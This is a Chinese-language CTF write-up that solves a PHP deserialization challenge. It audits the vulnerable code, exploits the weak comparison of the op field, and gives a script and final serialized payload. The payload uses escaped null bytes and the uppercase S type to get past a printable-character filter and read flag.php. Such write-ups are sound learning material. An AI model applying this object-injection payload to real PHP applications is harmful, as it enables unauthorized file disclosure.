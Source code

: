 ### buuoj_[网鼎杯2020 青龙组]AreUserialz

这个题拿到，首先进行简单的代码审计

```php
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
}
```

首先这里有个反序列化函数，而且这个is_valid函数判断ascii码位于32到125之间

```
public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }
```

这个函数可以看到，只要op==2，就可以读到文件

```
function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
```

但是这里可以看到，当op===2时，会被置为1，但是在process函数里面，使用的是双等于号，也就是弱比较，但是这个怎么绕过===比较我是真不知道，看了下大佬的wp，好像直接op=2就可以了？？？

构造函数

```
<?php
class FileHandler {
    protected $op=2;
    protected $filename="flag.php";
    protected $content;
}

$a= new FileHandler();
$a=serialize($a);
echo $a;
```

得到序列化的str值

```
O:11:"FileHandler":3:{s:5:"*op";i:2;s:11:"*filename";s:8:"flag.php";s:10:"*content";N;}
```

![](https://pic.imgdb.cn/item/611a55645132923bf88a2f37.jpg)

但是%00被解释为ASCII码的时候是0，此时可以就用十六进制\00和S绕过,s->S

```
O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:10:"./flag.php";S:10:"\00*\00content";N;}
```

![](https://pic.imgdb.cn/item/611a55e95132923bf88c7be7.jpg)

完成

